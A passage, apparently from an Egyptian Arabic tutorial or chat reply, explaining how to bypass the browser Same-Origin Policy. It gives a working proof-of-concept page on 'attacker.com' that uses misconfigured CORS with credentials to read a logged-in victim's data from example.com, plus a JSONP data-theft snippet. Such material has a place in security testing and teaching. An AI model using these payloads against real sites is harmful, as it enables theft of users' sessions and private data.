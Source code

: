 3. **ثغرات XSS (Cross-Site Scripting)**:
   - XSS بتخليك تنفذ كود JavaScript في سياق الموقع المستهدف، فبتتجاوز SOP لأن الكود بيشتغل زي لو كان جزء من الموقع.

4. **استغلال Subdomains (نطاقات فرعية)**:
   - لو النطاق الفرعي (مثل `sub.example.com`) فيه ثغرة أو إعدادات ضعيفة، ممكن تستغله للوصول للموقع الرئيسي.

5. **ثغرات في WebSockets أو PostMessage**:
   - WebSockets و `window.postMessage` بيسمحوا بالتواصل بين المواقع، ولو مش معمولهم إعدادات صح، ممكن تستغلهم.

6. **إعدادات المتصفح أو الإضافات**:
   - بعض الإضافات أو إعدادات المتصفح القديمة ممكن تعطل SOP.

#### **خطوات تنفيذ التجاوز عملياً**:

##### **1. استغلال إعدادات CORS الخاطئة**
- **الوصف**: لو الموقع بيرجّع رأس `Access-Control-Allow-Origin: *` مع بيانات حساسة، ممكن تقرأ البيانات من موقع خارجي.
- **اختبار عملي**:
  - استخدم **Burp Suite** أو Curl لفحص رؤوس الاستجابة:
    ```bash
    curl -I https://example.com/api/data
    ```
  - لو لقيت:
    ```
    Access-Control-Allow-Origin: *
    Access-Control-Allow-Credentials: true
    ```
    يبقى فيه ثغرة.
- **كود استغلال**:
  - اعمل صفحة HTML على موقعك (`attacker.com`):
    ```html
    <html>
      <body>
        <script>
          fetch('https://example.com/api/data', { credentials: 'include' })
            .then(response => response.text())
            .then(data => alert(data))
            .catch(err => console.log(err));
        </script>
      </body>
    </html>
    ```
  - لو الضحية زار الصفحة وهو مسجل دخوله، هتقدر تقرأ البيانات الحساسة (زي الـ Cookies أو بيانات الملف الشخصي).

##### **2. استغلال JSONP**
- **الوصف**: لو الموقع بيدعم JSONP ومش بيحقق المصدر، ممكن تستخدم وسم `<script>` لجلب البيانات.
- **اختبار عملي**:
  - جرب طلب JSONP:
    ```html
    <script src="https://example.com/api/data?callback=myFunction"></script>
    <script>
      function myFunction(data) {
        alert(JSON.stringify(data));
      }
    </script>
    ```
  - لو الموقع رجّع بيانات حساسة (زي توكن الجلسة)، يبقى فيه ثغرة.
- **ملاحظة**: JSONP قليل الاستخدام اليوم، لكن لسه موجود في مواقع قديمة.
